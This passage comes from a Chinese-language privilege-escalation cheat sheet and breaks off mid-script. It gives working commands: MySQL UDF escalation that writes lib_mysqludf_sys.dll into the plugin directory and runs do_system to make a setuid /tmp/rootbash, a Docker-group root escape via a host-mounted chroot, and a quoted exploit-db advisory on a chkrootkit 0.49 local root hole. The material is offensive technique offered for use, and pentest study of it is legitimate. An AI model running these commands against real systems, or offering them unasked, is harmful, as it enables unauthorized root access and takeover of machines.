 ```

select hex(load_file('D:\\02-Hacking_Tools\\02-vuln-exploit\\sqlmap\\extra\\cloak\\lib_mysqludf_sys.dll')) into dumpfile 'E:\\phpStudy\\PHPTutorial\\MySQL\\lib\\plugin\\udf.dll';
#ps：这里windows下目录结构要进行转义双写

但是有时候这一步的写入步骤只会写入一部分的内容，导致接下来的步骤都失败，所以也可以直接写入十六进制数据，详见：[MySQL UDF 提权十六进制查询 | 国光](https://www.sqlsec.com/tools/udf.html "MySQL UDF 提权十六进制查询 | 国光")
```
执⾏udf：
```
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```
提权：
```
/tmp/rootbash -p
```
## 6.19、Docker remote Api未授权访问

https://www.secpulse.com/archives/55928.html

**Tunnel Manager - From RCE to Docker Escape**：https://paper.seebug.org/396/

## docker用户 提权

```sh
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

## 6.20、chkrootkit 提权

Chkrootkit0.49以及以下版本均存在本地提权漏洞

[Chkrootkit 0.49本地提权漏洞利用与防范研究](https://zhuanlan.zhihu.com/p/26357609)

这是linux下的一个后门检测工具

```
searchsploit -m linux/local/33899.txt

☁  test  cat 33899.txt 
We just found a serious vulnerability in the chkrootkit package, which
may allow local attackers to gain root access to a box in certain
configurations (/tmp not mounted noexec).

The vulnerability is located in the function slapper() in the
shellscript chkrootkit:

#
# SLAPPER.{A,B,C,D} and the multi-platform variant
#
slapper (){
   SLAPPER_FILES="${ROOTDIR}tmp/.bugtraq ${ROOTDIR}tmp/.bugtraq.c"
   SLAPPER_FILES="$SLAPPER_FILES ${ROOTDIR}tmp/.unlock ${ROOTDIR}tmp/httpd \
   ${ROOTDIR}tmp/update ${ROOTDIR}tmp/.cinik ${ROOTDIR}tmp/.b"a
   SLAPPER_PORT="0.0:2002 |0.0:4156 |0.0:1978 |0.0:1812 |0.0:2015 "
   OPT=-an
   STATUS=0
   file_port=

   if ${netstat} "${OPT}"|${egrep} "^tcp"|${egrep} "${SLAPPER_PORT}">
/dev/null 2>&1
      then
      STATUS=1
      [ "$SYSTEM" = "Linux" ] && file_port=`netstat -p ${OPT} | \
         $egrep ^tcp|$egrep "${SLAPPER_PORT}" | ${awk} '{ print  $7 }' |
```